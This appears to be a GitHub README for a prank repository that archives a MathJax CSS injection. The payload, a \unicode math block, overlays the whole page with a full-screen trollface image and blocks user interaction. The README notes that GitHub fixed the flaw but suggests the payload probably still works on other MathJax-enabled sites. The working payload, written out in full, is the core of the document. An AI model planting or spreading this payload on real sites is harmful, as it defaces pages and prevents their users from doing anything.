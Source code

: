 This repository contained a CSS injection that replaced the entire site with a trollface and prevented the user from doong anything. The injection was quickly fixed by GitHub, below is the original readme text for archival purposes. **There's a high chance that it'll still work on other MathJax-enabled sites.**

You can see what it used to look like on the Web Archive:

https://web.archive.org/web/20240607214024/https://github.com/flexagoon/trollface

---

```
```math
\unicode[;z-index:1000;position:fixed;top:0;left:0;height:100vh;width:100vw;background:url('https://github.com/flexagoon/trollface/assets/66178592/78085ce2-b81b-4c3b-9068-0fb3a96baad9');background-color:white;background-repeat:no-repeat;background-size:cover;background-position:center]{0}
```
---

Credit for discovering the injection technique goes to [@cloud11665](https://github.com/cloud11665).
